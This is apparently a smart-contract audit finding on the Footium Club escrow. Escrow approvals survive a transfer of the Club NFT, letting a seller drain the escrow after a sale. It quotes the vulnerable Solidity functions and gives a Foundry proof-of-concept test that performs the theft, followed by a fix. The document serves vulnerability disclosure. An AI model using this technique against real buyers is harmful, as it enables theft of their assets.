 # Previous owner of the club could steal club inventory 

## Summary
Previous owner of the Club NFT had the ability to steal any assets held in the Club's escrow contract by approving their own address prior to transferring the Club NFT.

## Vulnerability Detail
Each Club NFT is associated with an Escrow contract that is responsible for holding and transferring the Club's inventory of NFTs (such as players) and tokens (such as Footium Token). The current Club owner can approve any address to transfer ERC20 and ERC721 tokens from the escrow (=club balance) using this contract.
As Clubs NFTs follow the ERC721 standard, they can be traded freely on secondary markets. However, this creates an attack vector where the seller of the Club can approve their own address as the operator of Club assets, sell the Club NFT, and withdraw Club assets after a successful trade. This is because approvals on the escrow contract do not get revoked after changing the Club owner.

## Impact
The new Club owner risks losing all assets stored in the escrow contract as previous owners can withdraw these assets by pre-approving their own address before transferring Club ownership.

## Code Snippet
Functions that allow the current owner (seller) to approve addresses to transfer assets from `Escrow` balance:

https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L75-L96
```solidity
    /**
     * @notice Sets approval for ERC20 tokens.
     * @param erc20Contract ERC20 contract address.
     * @param to The address of token spender.
     * @param amount Token amount to spend.
     * @dev only the club owner address allowed.
     */
    function setApprovalForERC20(
        IERC20 erc20Contract,
        address to,
        uint256 amount
    ) external onlyClubOwner {
        erc20Contract.approve(to, amount); 
    }

    /**
     * @notice Sets approval for ERC721 tokens.
     * @param erc721Contract ERC721 contract address.
     * @param to The address of token spender.
     * @param approved Boolean flag indicating whether approved or not.
     * @dev only the club owner address allowed.
     */
    function setApprovalForERC721(
        IERC721 erc721Contract,
        address to,
        bool approved
    ) external onlyClubOwner {
        erc721Contract.setApprovalForAll(to, approved);
    }
```
## PoC
Next Foundry test added in file `test/foundry/Footium.t.sol` could show a possible attack scenario:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../contracts/FootiumClub.sol";
import "../../contracts/FootiumPlayer.sol";
import {IERC721} from "@openzeppelin/contracts/token/ERC721/IERC721.sol";

contract CounterTest is Test {
    FootiumClub public club;
    FootiumPlayer public player;
    address buyer;
    address maliciousSeller;
    address secondaryMarket;

    function setUp() public {
        club = new FootiumClub();
        club.initialize("URL");
        player = new FootiumPlayer();
        player.initialize(address(123), 1, "URL");

        club.grantRole(club.MINTER_ROLE(), address(this));
        player.grantRole(club.MINTER_ROLE(), address(this));

        maliciousSeller = makeAddr("maliciousSeller");
        buyer = makeAddr("buyer");
        secondaryMarket = makeAddr("secondaryMarket");
    }

    function testStealingAfterTrade() public {
        // Minting club NFT for malicious seller and player NFT that would hold on clubs' escrow contract
        uint256 clubId = 1;
        club.safeMint(maliciousSeller, clubId);
        uint256 playerId;
        playerId = player.safeMint(address(club.clubToEscrow(clubId)));

        vm.startPrank(maliciousSeller);
        // Seller approves own address to be able to transfer players' NFT after trade of club NFT
        FootiumEscrow(club.clubToEscrow(clubId)).setApprovalForERC721(IERC721(address(player)), maliciousSeller, true);
        // Seller approve club NFT for secondary market to by traded
        club.approve(secondaryMarket, clubId);
        vm.stopPrank();
        // Trading tx
        vm.prank(secondaryMarket);
        club.transferFrom(maliciousSeller, buyer, clubId);
        // Checking that buyer now owns clubs' NFT
        require(club.ownerOf(clubId) == buyer);
        // Seller steal player NFT by transfer to own address since its still approved
        vm.startPrank(maliciousSeller);
        player.transferFrom(address(club.clubToEscrow(clubId)), maliciousSeller, playerId);
        vm.stopPrank();
        // Checking that seller owns player NFT after trade of club was executed
        assertEq(player.ownerOf(playerId), maliciousSeller);
    }
}
```
Check this link for instructions on how to add Foundry tests in the Hardhat project:

https://book.getfoundry.sh/config/hardhat#4-steps-to-add-foundry-test

## Tool used
Manual Review

## Recommendation
One possible solution to mitigate the risk of fraud for Club NFT buyers is to either remove the transfer possibility from the Club NFT contract altogether or explicitly warn potential buyers to check current approvals on the escrow contract and revoke any after buying.

## Link to origin issue
https://github.com/sherlock-audit/2023-04-footium-judging/issues/180